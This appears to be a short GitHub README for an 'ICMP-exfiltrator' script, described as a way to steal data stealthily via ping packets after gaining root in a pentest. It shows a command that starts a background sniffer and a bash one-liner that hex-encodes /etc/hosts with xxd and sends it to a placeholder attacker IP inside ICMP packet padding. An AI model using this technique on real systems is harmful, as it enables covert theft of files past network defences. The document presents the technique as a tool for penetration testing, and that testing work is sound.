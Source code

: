 # ICMP-exfiltrator
A simple script for data exfiltration using ICMP packets.

This script will be useful at the end of a pentest to steal data when otherwise we could not.After getting root we could use this script to exfiltrate data to our attacker's server stealthily via ICMP packets.

# Screenshots

We let our sniffer listen.

``` python
python3 icmp_exfiltration.py &> /dev/null
```

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line <attackers_IP_address> ; done
```
